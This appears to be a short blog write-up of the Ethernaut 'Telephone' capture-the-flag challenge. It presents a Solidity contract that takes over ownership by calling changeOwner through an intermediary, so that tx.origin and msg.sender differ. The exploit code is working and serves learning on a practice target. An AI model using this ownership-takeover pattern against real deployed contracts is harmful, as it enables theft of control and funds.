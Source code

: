 +++
title = 'Ethernaut Level 4 - Telephone'
date = 2024-08-28T16:14:08+02:00
draft = false

featured_image =  '/images/ethernaut.png'
background_image= '/images/ethernaut.png'
summary = 'Abuse the fact that tx.origin and msg.sender are different'
tags = [ 'writeups' , 'blockchain' ]
+++

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.25;

// tx.origin := Initial address of transaction chain
// msg.sender := previous address in transaction chain
// Solution: Make a contract to chall `changeOwner` 
// tx.origin (player) != msg.sender (contract)
interface Telephone {
    function changeOwner(address _owner) external ;
}


contract hackTelephone {
    Telephone originalContract;

    constructor(address _addr){
        originalContract = Telephone(_addr);
    }

    function hack(address _targetaddr) public {
        originalContract.changeOwner(_targetaddr);
    }
}


```